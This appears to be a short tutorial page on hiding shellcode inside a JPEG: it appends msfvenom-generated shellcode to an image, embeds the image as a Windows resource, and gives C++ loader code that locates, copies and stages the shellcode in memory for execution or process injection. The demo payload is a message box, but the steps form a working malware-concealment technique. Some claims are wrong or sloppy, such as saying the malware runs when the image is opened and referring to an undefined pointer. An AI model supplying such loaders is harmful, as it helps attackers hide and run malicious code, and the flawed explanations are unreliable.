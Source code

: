 ```yaml
---
layout: default
---
```


# Hiding malware within an Image

The basic idea is to hide the malware inside the concatenated image file. The malware can be hidden in the binary data of the image file. This can be done by adding the malware code to the end of the image file, after the image data. When the concatenated image file is downloaded and opened, the image will display normally, but the malware code will be executed in the background.

* Download a random image and find the length of byte. We can `xxd` for this purpose.

```bash
xxd -i saturn.jpg
```

![Saturn.jpg with XXD](/docs/resources/malware/saturn-xxd.jpg)

As shown above, the command precisely display the size of the image in bytes. Take a note.

* Create a binary with msfvenom and find its size. For demonstration purposes, lets use a message box binary.

```bash
xxd -i msgbox64.bin
```

![msgbox](/docs/resources/malware/msgbox-size.png)

Once we have both the file length, concatenate the shellcode with the image file.

```bash
xxd -p msgbox64.bin | tr -d "\n" >> saturn.jpg
```

* Create the resource file for the image.

```cpp
#include "resources.h"

IMAGE RCDATA "saturn.jpg"
```

Similarly the` resource.h` file

```cpp
#define IMAGE 100
```

* Final code for reading the malicious image file for the resource would be:

```cpp
// Extract payload from resources section
res = FindResourceA(NULL, MAKEINTRESOURCE(IMAGE), RT_RCDATA);
resHandle = LoadResource(NULL, res);
image = (char *) LockResource(resHandle);
image_len = SizeofResource(NULL, res);
```

The `image` character pointer points to first byte of the malicios image, and `image_len` the corresponding length of the image.

* Extract the shellcode

The `end` character pointer would point to the first byte of binary.

We know already made of note of image length as well as the shellcode length. We can find the corresponding offset that would point to the first byte of the shellcode.

```cpp
offset = image + 2653; 
memcpy(p0,offset,336);

exec_mem = VirtualAlloc(0, 336, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
RtlMoveMemory(exec_mem, p0, 336);
```

We then use the `memcpy` command to copy the shellcode from the image to another location in memory `p0`. Using `VirtualAlloc` shellcode size memory is allocated. Then `RTLMoveMemory` function is used to copy the contents from `p0` memory block to a `exec_mem` memory block. At this point the code could be used to inject into a process or execute as a child process.

[back](../malware.md)

